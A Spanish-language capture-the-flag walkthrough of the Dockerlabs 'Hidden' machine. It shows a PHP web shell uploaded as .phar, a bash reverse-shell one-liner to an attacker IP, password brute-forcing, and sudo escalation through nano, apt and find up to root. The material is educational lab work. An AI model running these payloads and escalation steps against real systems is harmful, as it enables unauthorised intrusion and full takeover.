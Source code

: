# Máquina Hidden

---------------------

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

-----------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada al puerto 22 y 80:

```shell
nmap -sCV -p8080 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://hidden.lab/
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: localhost
```

Entramos a la web para inspeccionar la página web. Como solo está abierto el puerto 80, sabemos que la intrusión va a ser vía web.

Al poner la IP en la url, vemos que no carga la página e intenta cargar "**hidden.lab**", por lo que lo añadiremos a nuestro **/etc/hosts**.

```shell
sudo nano /etc/hosts
```

Añadimos: "172.17.0.2 hidden.lab"

Ya podemos ver la web:

![Pasted image 20240416224904](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/ac385b73-00c6-4a1a-b382-b5f69c5182d4)

Aplicamos **fuzzing** por ejemplo con gobuster, para encontrar archivos y directorios. Encontramos directorios como **/mail** o **/js** pero tras inspeccionarlos no hay nada interesante.
Por lo que procedemos a enumerar posibles subdominios, tarea para la cual podemos utilizar también gobuster:

```shell
gobuster vhost -u http://hidden.lab/ -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 20 | grep -v "302"
----------------------------------------------------------------------------------------------
Found: dev.hidden.lab (Status: 200) [Size: 1653]    
```

Encontramos **dev.hidden.lab**, lo tendremos que añadir también al **/etc/hosts** y lo abriremos en el navegador.

![Pasted image 20240416225128](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/5a938e51-5cd2-4b55-b802-1926019929c7)

Nos encontramos ante un campo de subida de archivos. Es posible que tengamos que abusar de este para ganar acceso a la máquina.

Aplicamos **Fuzzing** sobre este nuevo subdominio con **gobuster**.

```shell
gobuster dir -u http://dev.hidden.lab/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak
-----------------------------------------------------------------------------------------------
/uploads              (Status: 301) [Size: 318] [--> http://dev.hidden.lab/uploads/]
/index.html           (Status: 200) [Size: 1653]                                    
/upload.php           (Status: 200) [Size: 74]                                      
/server-status        (Status: 403) [Size: 279]    
```

Encontramos un directorio **/uploads** que será interesante de cara a subir un archivo malicioso donde lo podamos tener ubicado.

------------------
## Explotación

Trataremos de subir un archivo **cmd.php** con la sintaxis típica para conseguir un **RCE** (Remote Code Execution) en la web.

```php
<?php
	system($_GET['cmd']);
?>
```

Lo intentamos subir pero nos dice que no se permite subir archivos con extensión **.php**.

Si probamos con otras extensiones válidas también para php. Como pueden ser .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, etc.

He ido probando varias, y deja subirlas todas, pero no todas son interpretadas. Finalmente tras probar varias veces, conseguimos que nos interprete el archivo **cmd.phar**.

![Pasted image 20240416230402](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1a2b542c-8d4b-4be2-a9e4-072e89773d4f)

Nos enviamos la reverse shell, poniéndonos en escucha con **netcat** en la máquina atacante:

```shell
sudo nc -nlvp 443
```

Nos la enviamos desde la url con:

```shell
http://dev.hidden.lab/uploads/cmd.phar?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.40/443 0>%261"
```

Estamos dentro !

------------
### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

------------
## Escalada de privilegios

Revisamos capabilities, archivos SUID, etc. Y no hemos encontrado nada, por lo que vamos a transferirnos un script para hacer fuerza bruta hacia los usuarios del sistema desde la propia máquina. Nos transferiremos el script -> [Script de fuerza bruta](https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.sh)
Y también el diccionario **rockyou**.

**Transferir los archivos a la máquina víctima**:
La máquina no cuenta con **wget** ni con **curl**. Una forma de transferirlos es en el campo de subida de archivos de la web que hemos vulnerado, en el dominio **dev.hidden.lab**.
Para el script no hay problema, lo subimos y ya lo tenemos en el directorio **uploads** dentro de la máquina.
Para el diccionario **rockyou**, como es enorme, me he transferido las 200 primeras líneas a un **.txt** y ha sido ese el que he subido.

Vemos que usuarios hay en el sistema:

```shell
cat /etc/passwd
```

Vemos 3 usuarios, **john**, **cafetero** y **bobby**
Nos situamos en el directorio **/uploads** donde tenemos el script de fuerza bruta y el diccionario y lo ejecutamos:

```shell
chmod +x Linux-Su-Force.sh
./Linux-Su-Force.sh cafetero rockyou2.txt 
------------------------------------------------
Contraseña encontrada para el usuario cafetero: 123123
```

Tras probar a hacer fuerza bruta contra el usuario **cafetero**, encontramos sus credenciales.
Tenemos la contraseña **123123** con la que podemos migrar al usuario **cafetero**

Hacemos **sudo -l** para ver si podemos ejecutar algo como root o como otro usuario del sistema.

```shell
sudo -l
---------------------
User cafetero may run the following commands on 8a54f4a7597f:
    (john) NOPASSWD: /usr/bin/nano
```

Podemos ejecutar **nano**. Esto es crítico y podemos abusar de este para ejecutar una consola como el usuario **john**. Si no sabemos como, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

```shell
sudo -u john /usr/bin/nano
^R^X (Ctrl+R y Ctrl+X)
reset; sh 1>&0 2>&0
```

![[Pasted image 20240415220430.png]]

Podemos hacer un **clear** para quitar el **nano** y ver bien la consola:

```shell
clear
whoami
----------------
john
```

Hemos migrado al usuario **john**. Hacemos **sudo -l** para ver si podemos ejecutar algo como root o como otro usuario del sistema.

```shell
sudo -l
---------------------
User john may run the following commands on 3e1d7f4234cf:
    (bobby) NOPASSWD: /usr/bin/apt
```

Podemos ejecutar **apt**. Esto es crítico y podemos abusar de este para ejecutar una consola como el usuario **john**. Si no sabemos como, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

```shell
sudo -u bobby /usr/bin/apt changelog apt
!/bin/bash
```

```shell
whoami
----------------------
bobby
```

Hemos conseguido migrar al usuario **bobby**. Hacemos **sudo -l** para ver si podemos ejecutar algo como root o como otro usuario del sistema.

```shell
sudo -l
---------------------
User bobby may run the following commands on 3e1d7f4234cf:
    (root) NOPASSWD: /usr/bin/find
```

Podemos ejecutar **find** como **root**. Si no sabemos como, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

```shell
sudo find . -exec /bin/sh \; -quit
whoami
----------------------------------------
root
```

Hemos alcanzado el nivel de privilegios máximo en el sistema !
